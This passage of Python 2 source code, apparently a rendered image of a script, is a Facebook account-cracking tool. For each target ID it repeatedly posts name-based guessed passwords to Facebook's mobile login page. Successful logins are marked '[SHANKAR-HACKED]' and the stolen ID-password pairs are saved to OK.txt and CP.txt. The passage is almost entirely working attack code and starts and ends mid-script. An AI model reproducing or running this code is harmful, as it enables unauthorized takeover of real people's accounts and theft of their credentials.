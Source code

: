                 cp.close()
                cps.append(uid + ps)
            else:
                ps2 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')
                    ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    ps3 = name.lower().split(' ')[0] + p3
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp:
                        print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        cp = open('CP.txt', 'a')
                        cp.write(uid + '|' + ps3 + '\n')
                        cp.close()
                        cps.append(uid + ps3)
                    else:
                        ps4 = name.lower().split(' ')[0] + p4
                        data = session.post('https://mbasic.facebook.com/login.php', data = {
                            'email': uid,
                            'pass': ps4,
                            'login': 'submit' })
                        sp = data.content
                        if 'mbasic_logout_button' in sp or 'save-device' in sp:
                            print '\x1b[1;92m[SHANKAR-HACKED] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            ok = open('OK.txt', 'a')
                            ok.write(uid + '|' + ps4 + '\n')
                            ok.close()
                            oks.append(uid + ps4)
                        elif 'checkpoint' in sp:
                            print '\x1b[1;91m[SHANKAR-CHECKPOINT] ' + uid + ' | ' + ps4 + '\x1b[0;97m'
                            cp = open('CP.txt', 'a')
                            cp.write(uid + '|' + ps4 + '\n')
                            cp.close()
                            cps.append(uid + ps4)
                        else:
                            ps5 = name.lower().split(' ')[0] + p5
                            data = session.post('https://mbasic.facebook.com/login.php', data = {
                                'email': uid,
                                'pass': ps5,